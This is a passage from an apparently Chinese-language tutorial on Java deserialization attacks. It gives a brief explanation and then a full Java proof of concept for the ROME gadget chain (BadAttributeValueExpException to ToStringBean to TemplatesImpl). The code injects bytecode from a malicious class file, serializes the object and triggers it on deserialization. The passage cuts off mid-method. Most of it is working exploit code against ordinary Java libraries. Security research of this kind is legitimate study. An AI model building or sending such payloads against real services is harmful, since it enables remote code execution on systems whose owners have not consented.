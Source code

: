 ![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923201726557.png)

走到readObject的else if，因为没设置安全管理器触发toString

![](https://typora-202017030217.oss-cn-beijing.aliyuncs.com/typora/image-20240923202421247.png)

POC：

```java
package org.exploit.third.rome;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;
import com.sun.syndication.feed.impl.ToStringBean;

import javax.management.BadAttributeValueExpException;
import javax.xml.transform.Templates;
import java.io.IOException;
import java.lang.reflect.Field;
import java.nio.file.Files;
import java.nio.file.Paths;
import java.util.Hashtable;
//BadAttributeValueExpException.readObject()
//ToStringBean.toString()
//ToStringBean.toString(String)
//TemplatesImpl.getOutputProperties()
public class Rome_BadAttributeValueExpException {
    public static void main(String[] args) throws Exception {
        byte[] code1 = Files.readAllBytes(Paths.get("E:\\CODE_COLLECT\\Idea_java_ProTest\\my-yso\\target\\classes\\RuntimeEvil.class"));
        TemplatesImpl templatesClass = new TemplatesImpl();
        Field[] fields = templatesClass.getClass().getDeclaredFields();
        for (Field field : fields) {
            field.setAccessible(true);
            if (field.getName().equals("_bytecodes")) {
                field.set(templatesClass, new byte[][]{code1});
            } else if (field.getName().equals("_name")) {
                field.set(templatesClass, "godown");
            } else if (field.getName().equals("_tfactory")) {
                field.set(templatesClass, new TransformerFactoryImpl());
            }
        }
        ToStringBean toStringBean = new ToStringBean(Templates.class, templatesClass);
        BadAttributeValueExpException badAttributeValueExpException = new BadAttributeValueExpException(null);//防止提前触发
        Field field = BadAttributeValueExpException.class.getDeclaredField("val");
        field.setAccessible(true);
        field.set(badAttributeValueExpException, toStringBean);
        serialize(badAttributeValueExpException);
        unserialize("ser.bin");
    }
    public static void serialize(Object obj) throws Exception
    {
        java.io.FileOutputStream fos = new java.io.FileOutputStream("ser.bin");
        java.io.ObjectOutputStream oos = new java.io.ObjectOutputStream(fos);
        oos.writeObject(obj);
        oos.close();
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException
    {
        java.io.FileInputStream fis = new java.io.FileInputStream(Filename);
        java.io.ObjectInputStream ois = new java.io.ObjectInputStream(fis);
        Object obj = ois.readObject();
        ois.close();
```
